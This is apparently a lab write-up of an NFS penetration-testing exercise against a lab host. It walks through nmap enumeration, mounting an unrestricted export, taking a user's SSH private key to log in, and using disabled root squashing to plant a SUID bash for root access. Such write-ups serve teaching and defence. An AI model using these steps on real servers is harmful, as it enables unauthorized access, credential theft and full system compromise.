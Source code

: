 # NFS

![Pasted image 20240919160551](https://github.com/user-attachments/assets/282a5c8a-2c4f-463d-a591-2011b4c8ca87)

NFS stands for "Network File System". It’s a protocol that allows users to access files over a network in a way that’s similar to accessing local storage. With NFS, systems can share files and directories seamlessly, making it easier for users and applications to access remote data as if it were on their local machine.

Here’s a simplified overview of the process when a request is made:

1. **Client Request:** This request includes details such as the file path and the desired operation.
2. **RPC Mechanism:** The client’s request is encapsulated in an RPC message and sent over the network to the NFS server.
3. **Server Processing:** Upon receiving the request, the NFS server processes it.
4. **Response to Client:** This response could include the requested file data, confirmation of a write operation, or an error message if something went wrong.

### Scope:

In the exercise, I will be performing enumeration on a target host that has the NFS service running. Based on the information gather from the enumeration, I will attempt to mount a share from the NFS server and see what sensitive information or misconfiguraiton can be exploited. 

### Tools and Technology:

Nmap, Linux, NFS, and Wireshark

## Enumeration:

Toget started, I wanted to get more information on the target host. To do this I used nmap:

```
nmap  -A 10.10.191.163 -T5 -p- -nnvvvv
```

![Pasted image 20240920095232](https://github.com/user-attachments/assets/22ec02c8-876d-4dea-b274-bf6858953df5)

Based on the output, I can see that both TCP/UDP port 2049 is open related to the NFS service among others. 

One of the features that nmap has is the use of NSE scripts. In this case, these are the scripts available concerning NFS:

![Pasted image 20240919163929](https://github.com/user-attachments/assets/6145205e-e2e4-43a8-898f-b8b4f65cd51e)

I went ahead and used the scripts to see what other information I am able to gather on the target:

```
nmap --script nfs-* 10.10.191.163  -T4  -nnvvvv
```

![Pasted image 20240920095032](https://github.com/user-attachments/assets/cc3ab798-f03e-4738-a7df-f2615cb8bbf3)

This output provided more details information including the NFS stats. Next, I use the `showmount` command below. This `showmount` command displays information about NFS shares on the server. It also shows which file systems are exported by the NFS server and which clients have access to them.

```
/usr/sbin/showmount -e 10.10.191.163
```

![Pasted image 20240920095126](https://github.com/user-attachments/assets/3bd751c4-543f-4afa-8f9c-b7555582d7a6)

This output is important to note. The `*`  means that the NFS server allows any machine on the network to mount that directory without restrictions. 

## Portmap Traffic:

![Pasted image 20240920100456](https://github.com/user-attachments/assets/fb5a1d25-94f8-4d74-abf2-cfd1e4700cec)

NFS relies on RPC for communication between the client and server. Each NFS service runs on a specific port, but the port numbers can vary. This is where portmap comes in. When an NFS client wants to connect to the NFS server, it first sends a request to portmap on the server to find out which port number corresponds to the NFS service. Below is an example of portmap and how it looks in the network traffic:

![Pasted image 20240920095904](https://github.com/user-attachments/assets/1cedc99e-9313-4c80-8874-7941f024bbfc)

Since the directory output above shows that any machine on the network to mount that directory without restrictions, I went ahead and mounted the share to my local machine. To do this, I first needed to create a directory where the share will be mounted:

```
mkdir /tmp/mount
```

Now that I created the directory, I proceeded to mount the share:

```
sudo mount -t nfs 10.10.191.163:home /tmp/mount/ -nolock
```

Breaking this down: 
+ mount : Execute the mount command
+ -t nfs : Type of device to mount, then specifying that it's NFS
+ IP:share :  	The IP Address of the NFS server, and the name of the share we wish to mount
+ -nolock: Spcifies not to use NLM locking

<!--![Pasted image 20240920100041](https://github.com/user-attachments/assets/28ff5c7b-5a64-478a-a225-b1fa4ad3a013)-->

When a client needs to mount a file system from the server, the client will need to obtain a file handle from the server. The file handle must correspond to the file system. This process requires that several transactions occur between the client and the server. Here, my host is attempting to mount /home/ from the server 10.10.191.163. Here is a view of this process in Wireshark:

![Pasted image 20240920100127](https://github.com/user-attachments/assets/38cf5180-6b0d-44c0-a2aa-c23071c959f4)

Once the share was mounted, I navigated to it and listed what was inside

```
cd /tmp/mount
ls -l
```

![Pasted image 20240920102239](https://github.com/user-attachments/assets/7b843650-b8c8-433b-a928-bac9a125524c)

I see there is a cappucino directory:

```
cd cappucino
```

![Pasted image 20240920102820](https://github.com/user-attachments/assets/74fbfa43-46b7-4188-bf5f-f922bdf7f85b)

Inside I saw there was an SSH directory:

```
cd .ssh
```

![Pasted image 20240920102756](https://github.com/user-attachments/assets/b7a118aa-47a3-4172-9b77-be15bd2bdc0f)

Looking at the contents of the id_rsa key with "nano" command:

![Pasted image 20240920103035](https://github.com/user-attachments/assets/b9145623-b73f-4497-ae92-0c423a84663e)

Looking at the content of the authorized_keys with the "cat" command:

![Pasted image 20240920103610](https://github.com/user-attachments/assets/98b5707e-53b5-4c78-bd2b-c18a7ccbf55a)

I copied the private key to my local system and changed the permissions with chmod 600 file_name:

```
ls -lhr id_rsa
```

![Pasted image 20240920103435](https://github.com/user-attachments/assets/c303846c-78d8-4846-bf2b-19d7aaaab3f0)

Now that I have the private key, I attempted to login to the server via SSH:

```
ssh -i id_rsa cappucino@10.10.191.163
```

![Pasted image 20240920104035](https://github.com/user-attachments/assets/b7977ea7-3266-4b3e-8c42-85e1073015cc)

I was able to successfully login! 

## Exploting NFS:

There are certain mechanisms that NFS has enabled by default that helps mitigate risks, one of these is called **Root Squashing**. It helps prevent the root user on a client machine from having unrestricted access to the NFS server’s file system. It’s typically enabled by default for NFS exports, but it can be turned off (which is generally not recommended). 

First, I downloaded the bash shell from the NFS server to my local system:

```
scp -i ~/id_rsa  cappucino@10.10.191.163:/bin/bash ~/Downloads/bash
```

I then changed the permissions owner to root:

```
chown root bash
```

![Pasted image 20240920105617](https://github.com/user-attachments/assets/b6472191-b3c7-44db-bf5b-96be01625229)

Copying the bash file to /tmp/mount directory 

```
cp ~/Download/bash /tmp/mount
```

I then proceeded to change the permissions and added the SUID bit using chmod:

```
chmod +s bash 
```

![Pasted image 20240920113954](https://github.com/user-attachments/assets/cf873900-dcac-4f74-94f9-8c065c02687b)

In output above I can see the I have the permissions and I am now root! 

### Summary:

In this exercise, I was able to perform enumeration using nmap of the target host and identified the ports and services open. In this case, I focused on the NFS service. I was then able to access the NFS server and mount the share to my local host. This then provided me with the private key which I then used to login via SSH on the server. I was then able to set the SUID permissions due to misconfiguration of root squash. This ultimately allowed me to execute the SUID bit bash executable and gain root access. 

In conclusion, it's important to perform regular testing to uncover potential vulnerabilities in the NFS configuration, such as misconfigured exports, lack of proper authentication, or inadequate permissions, which can be exploited by attackers.
